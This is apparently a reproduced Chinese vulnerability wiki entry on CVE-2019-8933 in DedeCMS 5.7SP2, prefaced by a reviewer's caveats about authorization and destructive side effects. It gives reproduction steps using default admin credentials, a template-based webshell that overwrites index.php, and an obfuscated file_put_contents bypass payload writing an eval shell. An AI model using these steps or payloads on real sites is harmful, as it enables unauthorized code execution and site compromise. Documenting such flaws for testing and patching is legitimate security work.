







## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：5.7SP2; admin template/page-generation access; writable PHP-served output; old PHP-compatible payload

- **凭据与会话边界（1）**：Default admin/admin applies to lab/configuration, not universal credential。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **适用与权限边界（2）**：Overview omits admin though walkthrough logs in。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（3）**：First path can overwrite index.php; disclose destructive effect。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **事实待核（4）**：Bypass uses unquoted PHP index and unsupported fixed-version claim absent; no original advisory。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# DedeCMS 5.7SP2 代码执行漏洞 CVE-2019-8933

## 漏洞描述

Desdev DedeCMS（织梦内容管理系统）是中国卓卓网络（Desdev）公司的一套基于 PHP 的开源内容管理系统（CMS）。该系统具有内容发布、内容管理、内容编辑和内容检索等功用。 DedeCMS 5.7 SP2 版本中存在漏洞。远程攻击者可经过在添加新模板时，将文件名 ../index.html 更改成 ../index.php 应用该漏洞向 uploads/ 目录上传 .php 文件并执行该文件。

## 漏洞影响

```
DedeCMS 5.7 SP2
```

## 漏洞复现

默认后台登陆路径 `/dede/login.php` 或 `/uploads/dede/login.php` ，默认用户名密码 `admin/admin`。




模板 -> 默认模板管理 -> 新建模板，写入shell，保存：




生成 -> 更新主页 HTML -> 浏览：

```
选择主页模板：default/newtpl.htm
主页位置：更改.html后缀为.php
首页模式：生成静态
```




连接 webshell：

```
http://<YOUR-IP>/index.php
```




### BYPASS

如果被检测到存在恶意代码：




进行绕过，保存成功：

```php
// file_put_contents('./shell.php', "<?php eval($_GET[a]);");

<?php
"\x66\x69\x6c\x65\x5f\x70\x75\x74\x5f\x63\x6f\x6e\x74\x65\x6e\x74\x73"('./shell.php', "<?php eva" . "l(\$_GE" . "T[a]);");
```

核心 -> 频道类型 -> 单页文档管理，通过新建模板 `newtpl.htm` 新建页面，更改 .html 后缀为 .php：




现在，我们在 `/a/` 目录下创建了一个文件，访问 `/a/npc.php` 页面，将会执行 `file_put_contents` 函数生成一个 `shell.php`：

```
http://<YOUR-IP>/a/shell.php
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
